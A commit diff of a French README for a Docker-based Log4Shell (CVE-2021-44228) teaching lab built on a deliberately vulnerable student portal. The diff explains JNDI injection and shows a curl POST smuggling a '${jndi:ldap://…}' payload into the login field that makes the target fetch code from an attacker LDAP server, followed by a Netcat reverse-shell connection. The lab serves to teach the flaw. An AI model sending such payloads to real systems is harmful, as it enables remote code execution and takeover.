

Before and after one commit to deepdown2death/Log4Shell-DIABLE, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 87% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -1,18 +1,32 @@
-# Log4Shell-DIABLE 🐍
+# Log4Shell : **Setup and Exploitation Guide**
 
 Ce projet est conçu pour démontrer et comprendre la vulnérabilité critique **Log4Shell** (CVE-2021-44228), qui affecte la bibliothèque **Apache Log4j 2**. Cette vulnérabilité permet à un attaquant d'exécuter du code arbitraire à distance en exploitant un mauvais traitement des messages de log.
 
-## Présentation de l'application web
+L'application web utilisée pour cette démonstration est un **portail étudiant** de l'**ISFA (Institut de Science Financière et d'Assurances)**. Ce portail permet aux étudiants de télécharger leurs documents scolaires et de consulter leurs notes. Dans cette démonstration, nous allons exploiter cette application pour démontrer la vulnérabilité Log4Shell.
 
-L'application web utilisée pour cette démonstration est un **portail étudiant** de l'**ISFA (Institut de Science Financière et d'Assurances)**. Ce portail permet aux étudiants de télécharger leurs documents scolaires et de consulter leurs notes. Dans cette démonstration, nous allons exploiter cette application pour démontrer la vulnérabilité Log4Shell.
+### **Qu’est-ce que Log4j ?**
+
+Log4j est une bibliothèque open-source réputée, conçue pour gérer la journalisation des événements dans les applications Java. Créée par la fondation Apache, elle est largement utilisée par les développeurs pour enregistrer des messages, des exceptions et d’autres informations utiles sur le fonctionnement des applications.
+
+### **Présentation de la vulnérabilité Log4j (Log4Shell)**
+
+Log4Shell, identifiée par le CVE-2021-44228, est une vulnérabilité critique dans Log4j qui permet l’exécution de code à distance (Remote Code Execution ou RCE). Cette faille exploite la fonctionnalité de résolution des expressions JNDI (Java Naming and Directory Interface) dans Log4j, permettant à un attaquant de contrôler l’exécution du code sur le système cible. JNDI est une interface de programmation d’applications (API) que les applications Java utilisent pour accéder aux ressources hébergées sur des serveurs externes.
+
+L’injection JNDI prend en charge différents types de répertoires, comme Domain Name Service (DNS), Lightweight Directory Access Protocol (LDAP) qui fournissent de précieuses informations comme les appareils réseau de l’organisation, Remote Method Invocation (RMI), et Inter-ORB Protocol (IIOP).
+
+### Fonctionnement technique
+
+- Lorsqu’une application utilise Log4j pour enregistrer une entrée utilisateur non validée contenant une expression JNDI malveillante, Log4j tente de résoudre cette expression en accédant à une ressource externe.
+- L’attaquant peut alors fournir une URL pointant vers un serveur malveillant qui renvoie un payload exécutable.
+- Une fois le payload chargé et exécuté, l’attaquant obtient un contrôle total du système.
 
 ## Prérequis
 
 - **Docker** installé sur votre machine.
 
-## Étapes d’installation et d’exploitation
+## **Setting Up the Application**
 
-### 1. Téléchargez les images Docker
+### Step 1 : Téléchargez les images Docker
 
 Exécutez les commandes suivantes pour télécharger les images nécessaires depuis Docker Hub :
 
@@ -21,7 +35,7 @@ docker pull eddycaron/diable:log4shell_vuln_app
 docker pull eddycaron/diable:log4shell_attacker
 ```
 
-### 2. Créez un réseau Docker
+### Step 2 : Créez un réseau Docker
 
 Créez un réseau Docker pour que les conteneurs puissent communiquer entre eux :
 
@@ -29,9 +43,9 @@ Créez un réseau Docker pour que les conteneurs puissent communiquer entre eux
 docker network create --driver bridge --subnet 172.25.0.0/16 net1
 ```
 
-### 3. Lancez l’application vulnérable
+### Step 3 : Lancez l’application vulnérable
 
-### Sur Linux :
+### **Sur Linux :**
 
 ```
 docker run -d --name vuln_app --network net1 --ip 172.25.0.10 eddycaron/diable:log4shell_vuln_app
@@ -89,10 +103,10 @@ Envoyez une requête POST malveillante à l’application vulnérable :
 
 ```
 docker exec -it attacker bash
-curl -X POST -d "uname=\${jndi:ldap://172.25.0.20:1389/a}&password=wrongpassword" http://172.25.0.10:8080/login
+curl -X POST -d "uname=\${jndi:ldap://172.25.0.20:1389/a}&password=blablaisfa" http://172.25.0.10:8080/login
 ```
 
-### 6. Observez le résultat
+### Observez le résultat
 
 Dans le listener Netcat, vous recevrez une connexion depuis le serveur cible. Voici quelques commandes pour interagir avec le système compromis :
 
````
Also changed, not shown: other parts of README.md (+35 -5 lines).
